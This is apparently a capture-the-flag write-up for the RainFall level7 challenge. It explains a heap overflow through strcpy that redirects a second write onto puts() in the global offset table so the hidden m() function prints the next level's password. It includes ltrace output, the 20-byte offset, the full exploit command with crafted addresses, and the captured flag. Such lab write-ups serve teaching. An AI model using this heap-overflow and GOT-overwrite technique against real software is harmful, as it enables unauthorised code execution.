 The decompiled program contains a main() function and an m() function that is never called. The main() function expects two parameters and segfault if they are missing. Those parameters are recorded on the heap in two different instances of a structure (cf[source.c file](source.c)), using malloc() and strcpy(). After that, the /home/user/level8/.pass file is opened and its content is stored in a global variable c. Finally, there is a useless printf(), which has been replaced by puts() by the compiler for optimization purposes.

What we can do here is to overflow the buffer of the first strcpy() call, so that the destination of the second strcpy() is changed. What we want to pass here is the address of the puts() function in the [global offset table (GOT)](https://en.wikipedia.org/wiki/Global_Offset_Table#:~:text=The%20Global%20Offset%20Table%2C%20or,data%20is%20loaded%20at%20runtime.), and what we want to put there is the address of the m() function.

This is made possible because the address space layout randomization ([ASLR](https://www.networkworld.com/article/3331199/what-does-aslr-do-for-linux.html)) is off.

So let's find out how many bytes are needed to reach b->s from a->s. Let's use ltrace for this:
```
level7@RainFall:~$ ltrace ./level7 AAAAAAAAAAAAAAAAAAAAAAAAA BBBB
__libc_start_main(0x8048521, 3, 0xbffff7b4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                             = 0x0804a008
malloc(8)                                                             = 0x0804a018
malloc(8)                                                             = 0x0804a028
malloc(8)                                                             = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAAAAAAA")                       = 0x0804a018
strcpy(0x41414141, "BBBB" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Here we see that the first argument of the second strcpy() is filled with 'A' (0x41414141) so we are overwriting it right now. After some adjustments, we find that the offset is 20 bytes.

Let's now craft our parameters. The first argument needs 20 bytes of padding, followed by the puts() address on the GOT, in the little endian convention (in gdb, use the `disas puts` command). The second argument simply needs the m() function address, also in the little endian convention (in gdb, use the `info functions`command).
```
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1657334108
```
We can now reach to the next level with the command `su level8` and fill in the flag found as a password.
